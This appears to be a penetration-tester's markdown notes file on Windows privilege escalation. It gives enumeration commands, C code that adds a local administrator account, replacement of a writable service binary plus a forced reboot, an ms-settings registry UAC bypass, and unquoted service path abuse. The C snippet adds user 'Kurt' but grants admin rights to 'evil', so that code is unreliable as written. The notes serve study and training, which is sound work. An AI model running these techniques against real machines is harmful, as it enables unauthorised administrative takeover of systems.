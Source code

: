 # Windows Privilege Escalation Notes  

## net commands  

Check who is in local administrators group.  

`net localgroup Administrators`  

Find the version and arch of the os.  

`systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"`  


Find user privileges.  

`whoami /priv`

Find running processes.  

`tasklist`  

Find running processes with powershell.  

`Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}`  

## Services  

Are services running program files binaries? These are user installed and the structure and permissions are set by the user or developer.  

Permissions of a service.  

`icacls "C:\Program Files\someDirectory\bin\someBinary.exe"`  

Most relevant permissions.  

```
Mask | Permissions
------------------
F    | Full access 
M    | Modify access
RX   | Read and Execute access
R    | Read-only access
W    | Write-only access
```  

If we find a service with a binary that has full read/write permissions, it can be replaced with something of my choosing.  

The following C code creates a user 'Kurt' and adds him to the local administrator group.  

```
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user Kurt password123 /add");
  i = system ("net localgroup administrators evil /add");
  
  return 0;
}
```  

This can be compiled on a kali machine.  

`i686-w64-mingw32-gcc adduser.c -o adduser.exe`  

Move the service binary to keep the original intact.  

`move "C:\Program Files\someDirectoy\bin\someBinary.exe" "C:\Program Files\someDirectory\bin\someBinary_original.exe"`  

Move the malicious binary to the binary the service runs.  

`move adduser.exe "C:\Program Files\someDirectory\bin\someBinary.exe"`  

If we do not have permission to restart this service, we can check if it starts in auto.  

`wmic service where caption="SomeService" get name, caption, state, startmode`  

If the user has reboot permission, a reboot can restart the service automatically and run the malicous binary.  

`shutdown /r /t 0`  


## Integrity levels  

Find group information and integrity level.  

`whoami /groups`  

Change admin password.  

`net user admin newpassw0rd!`  

To change to high integrity level while admin.  

`powershell.exe Start-Process cmd.exe -Verb runAs`  

## Application manifest  

The application manifest is an xml file that informs the os how to handle the program when it is started.  

Using SysinternalsSuite.  

`sigcheck.exe -a -m C:\Windows\System32\aBinary.exe`  

## Processes  

From SysinternalsSuite, use this binary to find out information about a running process.  

`procmon.exe`  

## Reg Keys  

Find attempts to interact with registry keys that give the error.  

`NAME NOT FOUND`  

To tamper with registry keys, we can find our hive with read/write access, this is current user HKEY_CURRENT_USER.  

`HKCU`  

To add a registry key.  

`REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command`  

To add a registry key with v for value name and t for the type.  

`REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ`  

To add a value to a registry key, d is the value and f to add silently.  

`REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f`  

## Unquoted service paths  

This attack is possible when a service directory and sub-directory has write access but the files within cannot be replaced.  

Windows will attempt to execute this unquoted path.  

`C:\Program Files\My Program\My Service\service.exe`  

In the following way.  

```
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
```  

In the above, a executable  

`My.exe`  

Could be placed in.  

`C:\Program Files\My Program`  

If write permissions are misconfigured.  

## Third-party driver attacks  

Enum drivers.  

`driverquery /v`  

Running gcc on windows, run the bat file first to set up PATH env variable.  

```
mingw-w64.bat
gcc --help
```  

